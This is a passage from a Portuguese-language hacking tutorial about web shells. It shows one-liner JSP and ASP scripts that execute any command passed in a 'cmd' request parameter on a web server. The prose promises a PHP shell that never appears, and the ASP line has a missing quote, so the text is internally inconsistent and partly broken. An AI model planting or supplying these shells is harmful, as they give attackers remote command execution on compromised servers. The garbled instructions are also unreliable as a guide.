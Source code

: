 # Web shell

Por último mas não menos importante, temos o web shell, que normalmente é um script (PHP, ASPX, JSP, etc) que executa nossos comandos pela requisição HTTP com parâmetros como (incluindo mas não se limitando) GET ou POST e imprime a saída na página web.

## Criando um web shell
Vamos usar o PHP para criar o shell, principalmente por ser a linguagem mais comum usada por servidores. A lógica do script é levar nosso comando ao servidor com o parâmetro GET, executar o comando e imprimir a saída na página web.

Um script php costuma ser um script one-liner, que pode ser memorizado e usado em qualquer lugar e ambiente.

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
```asp
<% eval request("cmd) %>
```
